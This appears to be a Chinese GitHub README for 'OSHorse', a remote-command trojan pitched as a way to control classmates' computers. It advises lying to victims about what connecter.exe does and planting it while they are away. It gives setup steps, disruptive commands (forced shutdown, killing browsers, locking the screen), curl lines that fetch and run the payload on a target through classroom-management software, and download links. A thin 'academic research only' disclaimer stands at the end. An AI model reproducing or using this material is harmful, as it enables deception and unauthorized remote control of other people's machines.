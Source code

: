 # OSHorse，轻松控制同学电脑！

## 有关这个项目
最近一直在找机会研究如何破解极域电子教室，结果百度了几下，看到某篇利用电子教室控制同学的教程。

呃，这似乎有点麻烦，不如自己写一个罢…？

来看看这个远程命令程序！

个人博客介绍：https://blog.helloos.eu.org/index.php/blog/13

## 小技巧：
1. 谎称connecter.exe是个利用host加速的程序
2. 谎称输入控制机器的IP地址是要激活程序

当然你在同学不在的时候植入木马是最佳选择！

## 使用方法
1. 在控制机器上下载（链接附在文末）`HorseCommander.exe`，并在程序同一目录下新建文本文档，重命名为`connect.exe`，内容为连接端口（建议为8888或8080），然后打开程序。（切记，一定要先打开控制端！）
2. 在目标机器上下载`connecter.exe`，并在程序同一目录下新建文本文档，重命名为`connect.exe`，内容 第一行为控制机器的IP地址（输入`ipconfig`查看，一般格式为`192.168.*.*`），第二行为连接端口（与上文端口相同）。双击打开程序，目标机器可能会闪过一个黑框。
3. 回到控制机器，会显示连线者IP地址并显示提示符，您现在可以远程执行命令啦！

TIPS: 这个提示符的界面和cmd不一样，你可以执行`cd .`来查看目标机器上木马的工作目录，输入`help`查看木马内置命令。

坑同学小命令：
```cmd
#关机
shutdown -s -t [时间，单位为秒]
#重启
shutdown -r -t [时间，单位为秒]
#关闭chrome浏览器
taskkill -f -im chrome.exe
#关闭edge浏览器
taskkill -f -im msedge.exe
#弹出计算器
calc
#锁屏
lock
#弹窗
msg [消息]
```

## 使用极域电子教室反控制软件植入木马
本地
```cmd
curl "https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe" --output ./connecter.exe
ipconfig
```
远程
```cmd
cd %%temp%%/../../../Documents
curl "https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe" --output ./connecter.exe
echo [你的内网IP]>>connect.txt
./connecter.exe
```
## 下载
[下载HorseCommander.exe(控制)](https://helloosdisk.wdfiles.com/local--files/file:software/HorseCommander.exe)

[下载connecter.exe(目标)](https://helloosdisk.wdfiles.com/local--files/file:software/connecter.exe)

### 免责声明：仅供学术研究使用。对于违反相关法律、造成危害的滥用行为，开发者不负任何责任。
